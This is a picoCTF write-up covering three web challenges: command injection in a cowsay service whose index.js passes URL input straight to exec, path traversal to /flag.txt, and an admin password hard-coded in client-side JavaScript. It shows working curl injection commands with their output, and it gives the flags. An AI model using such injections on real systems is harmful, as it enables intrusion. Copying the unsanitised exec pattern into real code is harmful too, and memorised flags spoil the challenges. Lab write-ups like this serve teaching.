 # cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for adding unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, this time trying to output the contents of `falg.txt` using `cat`, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;cat<falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.

![The input](../Images/input.jpg)

Since we are four levels deep in the root directory, we use `../` four times.

![The flag](../Images/path_flag.jpg)

So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.

![Portal](../Images/login_portal.jpg)

We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.


![Response](../Images/login_response.gif)


We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/8b7d50f8-eb97-4801-b99e-16fe569cc6e0


